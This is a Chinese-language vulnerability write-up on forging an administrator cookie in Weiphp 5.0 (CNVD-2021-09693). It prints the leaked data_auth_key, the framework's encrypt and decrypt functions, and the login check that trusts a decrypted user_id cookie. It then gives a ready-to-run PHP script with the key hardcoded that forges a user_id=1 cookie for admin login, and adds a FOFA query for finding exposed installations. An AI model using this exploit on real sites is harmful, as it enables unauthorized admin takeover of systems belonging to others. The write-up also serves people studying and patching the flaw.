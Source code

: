 # Weiphp5.0 任意用户Cookie伪造 CNVD-2021-09693

## 漏洞描述

Weiphp5.0 存在管理员用户Cookie伪造，通过泄露的密钥数据，可利用加密方法来得到管理员的Cookie

## 影响版本

> [!NOTE]
>
> Weiphp <= 5.0

## 环境搭建

[weiphp5.0官方下载参考手册](https://www.weiphp.cn/doc/Initialization_database.html)

参考官方手册创建网站即可

![](http://wikioss.peiqi.tech/vuln/weiphp-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## FOFA

> [!NOTE]
>
> app="WeiPHP"

## 漏洞复现

首先需要得到数据库配置文件中的**data_auth_key**密钥

![](http://wikioss.peiqi.tech/vuln/weiphp-15.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

得到这个配置文件可参照上一篇**Weiphp5.0 前台文件任意读取**

```
'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'
```

全局查找下使用了这个密钥的地方

![](http://wikioss.peiqi.tech/vuln/weiphp-16.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

找到了跟据这个密钥的加密方法和解密方法

**加密方法 think_encrypt**

```php
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}
```

**解密方法 think_decrypt**

```php
function think_decrypt($data, $key = '')
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);
    $data = str_replace(array(
        '-',
        '_'
    ), array(
        '+',
        '/'
    ), $data);
    $mod4 = strlen($data) % 4;
    if ($mod4) {
        $data .= substr('====', $mod4);
    }
    $data = base64_decode($data);
    $expire = substr($data, 0, 10);
    $data = substr($data, 10);

    if ($expire > 0 && $expire < time()) {
        return '';
    }
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = $str = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    for ($i = 0; $i < $len; $i++) {
        if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
            $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
        } else {
            $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
        }
    }
    return base64_decode($str);
}
```

全局查看下使用了解密方法的地方

在文件 **application\common.php** 中含有使用解密方法的代码，用于做身份验证

```php
function is_login()
{
    $user = session('user_auth');
    if (empty($user)) {
        $cookie_uid = cookie('user_id');
        if (!empty($cookie_uid)) {
            $uid = think_decrypt($cookie_uid);
            $userinfo = getUserInfo($uid);
            D('common/User')->autoLogin($userinfo);

            $user = session('user_auth');
        }
    }
    if (empty($user)) {
        return 0;
    } else {
        return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
    }
}
```

根据这里得到的代码，可以知道当**user_Id=1**时,会解密密钥后判断是否正确，如果正确则可以登录系统

我们在本地使用加密代码加密**user_id=1**得到的cookie则可以登录系统

```php
<?php
show_source(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
    $key = md5($key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo 'user_id = ' . think_encrypt($_GET['user_id']);
?>
```

![](http://wikioss.peiqi.tech/vuln/weiphp-17.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

添加**cookie: user_id=xxxxxxxx**即可成功登录

![](http://wikioss.peiqi.tech/vuln/weiphp-18.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/weiphp-19.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> 获取密钥的方法参照上一篇审计文章